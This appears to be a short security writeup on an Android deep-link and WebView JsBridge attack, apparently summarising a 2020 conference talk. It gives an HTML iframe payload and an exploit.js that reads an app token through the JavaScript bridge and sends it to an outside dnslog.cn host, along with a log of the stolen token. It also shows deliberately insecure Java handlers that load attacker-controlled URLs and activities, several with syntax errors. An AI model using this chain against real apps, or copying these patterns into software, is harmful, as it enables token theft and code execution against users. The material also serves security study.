

## Process

## payload
- Evil.html
```html
<iframe src= "jayway://openapp/activity?param= {"activity": "com.jayway.JsBridge", "url": "http://whitelist.com/xss=exploit.js"} ">
```
- exploit.js
```javascript
function evil(){
   var data = window.JsInterface.getToken();
   document.body.appendCild(document.createElement("img")).src= "http://xx.dnslog.cn?data=" + data;
  }
```
- Result: Accesslog of dnslog.cn
```
 GET /data={Token="xxxxx"}
```

## Code
- DeepLink Attack Input
```java
public static deeplink(){
 Intent intent = this.getIntent();
 Uri uri = intent.getData();
 String scheme = uri.getScheme();
 String host = uri.getHost();
 if (scheme = "jayway" && host = "openapp") 
    param = uri.getQueryParameter("param");
}
   WebView webView = new Webview();
   WebSettings webSettings = webView.getSettings();
   webSettings.setJavaScriptEnabled(true);
# case 1 : parse any url  
   webView.loadUrl(param);
# case 2 : load any activity by deeplink
   Intent intent2 = new Intent();
   intent2.setData(Uri.parse(param));  #User-controlled
   this.startActivity(intent2);
```

- Malicious Activity
```java
private boolean rce(){
 Intent intent = this.getgetIntent();
 String str = intent.getStringExtra("param2");
 this.a = Class.forName(str).newInstance;
}
```

- JsBridge
```java
1. Get sensitive info
public String getKey(){
 if (com.jayway.utils.isWhiteList(this.url)){
   String json = new JsonObject();
   String token = com.jayway.info.getInstance().getToken();
   json.put("token",token)
   return json.toString();  
  }
}
```


- [2020 看雪SDC议题回顾 | Android WebView安全攻防指南2020](https://zhuanlan.kanxue.com/article-14155.htm)
